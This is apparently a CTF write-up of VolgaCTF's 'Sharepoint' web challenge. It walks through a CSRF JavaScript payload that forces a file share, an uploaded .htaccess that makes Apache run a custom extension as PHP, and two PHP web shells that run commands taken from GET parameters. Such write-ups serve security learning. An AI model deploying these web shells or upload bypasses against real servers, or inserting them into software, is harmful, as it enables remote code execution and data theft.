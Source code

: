 ```yaml
---
title:  "VolgaCTF -- Sharepoint Writeup"
categories:
  - VolgaCTF
tags:
  - challenge
  - web
  - writeup
  - ctf
  - volgactf
  - sharepoint
---
```

<div class="notice--info">
<strong>What I learned from this:</strong>
<ul>
<li>Check for multiple attack vectors</li>
<li>Basic knowledge on HTTP Servers (in this case Apache)</li>
<li>The difference between PHP's <code>exec</code>, <code>system</code> and <code>passthru</code></li>
</ul>
</div>

## Challenge Description

Sharepoint was a 200 point challenge in the web category of VolgaCTF. The challenge description was the following:

"*Look! I wrote a good service for sharing your files with your friends, enjoy)*"

The first thing we see upon opening the webpage is a login form, which also works as a registration form, as providing a username/password combo will give further access.

When logged, a user has access to four more actions:

- Upload: which allows a user to upload files;
- Files: which allows a user to access their uploaded files;
- Share: which allows a user to accept share requests from other users;
- Logout: well, logs out the user.

My first impression, based on what was available, was that we probably had to access some other user's file, which probably contained the flag.

**Spoiler alert**: I was wrong.

## Uploading and Sharing

On the `upload.php` page we had some restrictions on the uploaded file's extension, as we couldn't upload `.php` or `.html`.

After uploading some files, including an HTML file with no extension, I checked the `files.php` which showed a list of uploaded files. The links had the format `/files/<username>/<filename>`, suggesting each user has his own directory to where files were uploaded. With each file there was also a share option that showed a form with a username as input.

When opening an uploaded file with HTML content the browser would normally render the file, meaning the `.html` restriction had no effect, as html would still be rendered.

By using the share functionality with another user, the `share.php` page would show a list of incoming share requests. The receiving end could either accept or reject the incoming share. Upon accepting the request, the shared file would show on `files.php` page, suggesting the shared file would be copied that user's directory.

## Attack Vector \#1

Knowing that the browser would render HTML files without extension, and convinced that the objective was to access another user's file, I started working on a CSRF attack that would make another user share a file with me. My idea was to share a crafted payload that when opened would allow a share with my account.

The share request was being made with a POST to `share.php` with the payload `username=<username>&filename=<filename>`, so I built a JavaScript snippet that would make a request to `share.php` with my username and the file I wanted the other user to share:

```html
<html>
    <script>
        var http = new XMLHttpRequest();
        http.open("POST", "../../share.php");
        http.setRequestHeader("X-Requested-With", "XMLHttpRequest");
        http.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        http.send("username=jcfg&filename=flag");
    </script>
</html>
```

I tested the exploit and it worked perfectly, now I just had to figure out the target account and the file name.

I tried multiple accounts (e.g. `admin`, `volga`, `volgactf`), but none seemed to work, some didn't even exist... Since I noticed the database would reset every couple of minutes, I tried the exploit right after the reset, which lead me to believe that I went on the wrong direction, since no account existed.

## Attack Vector \#2

With the first vector being rendered not very useful, I turned my focus to the upload functionally.

With the belief that each user had his own directory and by checking that the server was running Apache, I came up with the idea of uploading my custom `.htaccess` file to see the directory listing:

```
Options +Indexes
```

This confirmed that I could manipulate `.htaccess`, but allowing listing didn't prove very useful, so I wondered if I could run code some other way.

I started googling about running code inside `.htaccess`, which lead me to something even more useful: [make Apache run HTML files like PHP](http://stackoverflow.com/questions/4687208/using-htaccess-to-make-all-html-pages-to-run-as-php-files). With knowledge of this option I created the following `.htaccess`:

```
Options +Indexes
AddType application/x-httpd-php .jcfg
```

This would make Apache run `.jcfg` files as PHP. I uploaded a simple `<?php echo 'hi'; ?>` with `.jcfg` extension and *voilà*, I got code running on the server.

Knowing how I could run code on the server, I uploaded a small script to execute commands server side:

```php
<?php
    echo exec($_GET['cmd']);
?>
```

I used `echo` to recursively list files (`echo *` and I kept adding `/*` to show more files) until I found the flag, which was in `/opt/flag.txt`, obtaining the challenge's flag:

`VolgaCTF{AnoTHer_apPro0Ach_to_file_Upl0Ad_with_PhP}`

## The Untold Story

The challenge was pretty simple, but I spent a lot of time (an entire afternoon actually) looking for the flag in the server. When trying `ls / -lah`, I was only getting a single line of output, so I started wondering if I was even looking at the right place. I ended up looking at the database (by leaking the source with `file_get_contents()`) and still couldn't find anything.

I wasn't the only one having problems finding the flag, as I saw people asking about the flag location, hence the tip about the flag location being **opt**imal.

When the CTF closed and people started talking about how they solved the challenges, I noticed people were saying they used `ls` and `find` to get the flag, which made me wonder about my method, so I went and checked the PHP documentation for `exec`, realising that this command only returns the last line from the result of the command.

I now knew why I wasn't getting the expected result, so I looked for an alternative, and hopefully better, method. I ended up building this small snippet that uses both `system` and `passthru`:

```php
<?php
if (isset($_GET['bin'])) {
    passthru($_GET['bin']);
} elseif (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
} else {
    echo 'No GET params set. Use bin=cmd" for passthru, cmd=cmd for system.';
}
?>
```
With this script I can use `system` for running commands with certainty that I get the full output and `passthru` if I want to get the raw bytes (useful to exfiltrate binary files).
